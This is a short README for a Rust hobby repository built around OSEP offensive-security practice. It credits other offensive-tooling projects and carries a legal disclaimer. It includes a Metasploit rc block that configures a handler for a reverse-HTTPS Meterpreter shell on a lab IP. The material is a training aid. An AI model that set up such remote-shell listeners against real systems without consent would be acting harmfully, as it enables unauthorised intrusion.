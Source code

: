 # Tartocitron
Tartocitron is a repo to have fun with OSEP concepts and the Rust language.

## But, why?
I have spare time.

## Install Rust on Linux
https://www.rust-lang.org/tools/install

## Meterpreter rc file
All tests presented here have been performed with the following msf rc entries:
`use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.56.101
set LPORT 443
set exitfunc thread
set stagerencode true
run -j`


## Credits
* https://github.com/trickster0/OffensiveRust
* https://github.com/byt3bl33d3r/OffensiveNim

## Legal disclaimer
Usage of anything presented in this repo to attack targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.